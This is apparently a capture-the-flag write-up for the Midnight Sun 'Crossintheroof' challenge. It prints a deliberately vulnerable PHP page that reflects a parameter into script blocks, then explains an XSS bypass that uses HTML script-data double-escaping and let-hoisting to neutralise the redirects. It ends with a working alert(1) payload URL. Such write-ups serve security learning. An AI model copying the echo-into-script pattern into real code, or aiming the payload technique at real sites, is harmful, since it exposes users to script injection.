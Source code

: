 # Crossintheroof

## Description

```
Alert the cyber police, someone wrote insecure code!
settings Service: http://crossintheroof-01.play.midnightsunctf.se/
```

Front page:
```
Cross in the roof
Make alert(1) pop here(http://crossintheroof-01.play.midnightsunctf.se/#) in Chrome and submit the working URL in the form below.
```

Code:
```
<?php

header('X-XSS-Protection: 0');
header('X-Frame-Options: deny');
header('X-Content-Type-Options: nosniff');
header('Content-Type: text/html; charset=UTF-8');

if(!isset($_GET['xss'])){
    if(isset($_GET['error'])){
        die('stop haking me!!!');
    }

    if(isset($_GET['source'])){
        highlight_file('index.php');
        die();
    }

    die('unluky');
}

 $xss = $_GET['xss']?$_GET['xss']:"";
 $xss = preg_replace("|[}/{]|", "", $xss);

?>
<script>
setTimeout(function(){
    try{
        return location = '/?i_said_no_xss_4_u_:)';
        nodice=<?php echo $xss; ?>;
    }catch(err){
        return location = '/?error='+<?php echo $xss; ?>;
    }
    },500);
</script>
<script>
/* 
    payload: <?php echo $xss ?>
*/
</script>
<body onload='location="/?no_xss_4_u_:)"'>hi. bye.</body>
```

## Solution

Task: attack the user with reflected XSS through this page

### Example of response

request:
```
GET /?xss=INJECTION HTTP/1.1
Host: crossintheroof-01.play.midnightsunctf.se:3000
```

response:
```
HTTP/1.1 200 OK
Server: nginx/1.17.9
Date: Sun, 05 Apr 2020 11:21:23 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/5.6.40
X-XSS-Protection: 0
X-Frame-Options: deny
X-Content-Type-Options: nosniff
Content-Length: 291

<script>
setTimeout(function(){
    try{
        return location = '/?i_said_no_xss_4_u_:)';
        nodice=INJECTION;
    }catch(err){
        return location = '/?error='+INJECTION;
    }
    },500);
</script>
<script>
/*
    payload: INJECTION
*/
</script>
<body onload='location="/?no_xss_4_u_:)"'>hi. bye.</body>
```

### Thoughts

#### Script data double escaped state

Firstly, we have to bypass execution of the `onload` attribute, cause it executes at the beginning.

Here we can use a feature of HTML tokenization that is called: `Script data double escaped state`.

The gist is if you are in a `<script>` tag and come across `<!--` followed at some point by `<script>` again, then the next `</script>` is ignored, unless you leave comment mode `-->`.

So, if we inject the following code: `1;<!--<script`, we will spoil the second javascript code and it'll consume body tag.

Why is it important don't close the `script` tag with `>`? Because if we leave `>` here, then the first block will be spoiled too.

Look for example:

```html

<script>
setTimeout(function(){
    try{
        return location = '/?i_said_no_xss_4_u_:)';
        nodice=1;<!--<script;                           <-- it doesn't work
    }catch(err){
        return location = '/?error='+1;<!--<script;     <-- it doesn't work
    }
    },500);
</script>
<script>
/*
    payload: 1;<!--<script                               <-- it works
*/
</script>                                                <-- next script is ignored
<body onload='location="/?no_xss_4_u_:)"'>hi. bye.</body><-- It has been consumed by the <script> tag.
```

For a better understanding:

- Discussion https://github.com/w3c/html/issues/1617 
- Specs - https://www.w3.org/TR/html52/syntax.html#tokenizer-script-data-double-escaped-state
- Explanation - http://archive.li/VrotB#selection-683.126-683.151
- Other example of task - https://www.pwntester.com/blog/2014/01/08/escape-alf-nu-xss-challenges-write-ups-part-257/



#### JavaScript Hoisting

After that we can bypass redirection from JS with knowledge of the "Hoisting" mechanism.

The concept: `Hoisting is a JavaScript mechanism where variables and function declarations are moved to the top of their scope before code execution.`

But for `let` and `const` declaration `Hoisting` working is a bit tricky. Read: [Hoisting in Modern JavaScript — let, const, and var
](https://blog.bitsrc.io/hoisting-in-modern-javascript-let-const-and-var-b290405adfda)

**For `var` declaration:**

```
When JavaScript engine finds a var variable declaration during the compile phase, it will add that variable to the lexical environment and initialize it with "undefined".
```

**For `let` and `const`:**

Let’s first take a look at some examples:
```
console.log(a);
let a = 3;
```

Output:
```
ReferenceError: a is not defined
```

So are `let` and `const` variables not hoisted?

The answer is a bit more complicated than that. `All declarations (function, var, let, const and class) are hoisted in JavaScript, while the var declarations are initialized with undefined, but let and const declarations remain uninitialized`.

That means, if we declare the `location` variable after the string `return location=...`, it will no longer be a global variable for the context of our lambda function. The `location` variable has been declared but remains uninitialized. 

*This means you can’t access the variable before the engine evaluates its value at the place it was declared in the source code. This is what we call “Temporal Dead Zone”, A time span between variable creation and its initialization where they can’t be accessed.*


For a better understanding:

- https://blog.bitsrc.io/hoisting-in-modern-javascript-let-const-and-var-b290405adfda
- https://scotch.io/tutorials/understanding-hoisting-in-javascript


### The End

Solution:

```
http://crossintheroof-01.play.midnightsunctf.se:3000/?xss=alert(1);let%20location=1%3C!--%3Cscript
```
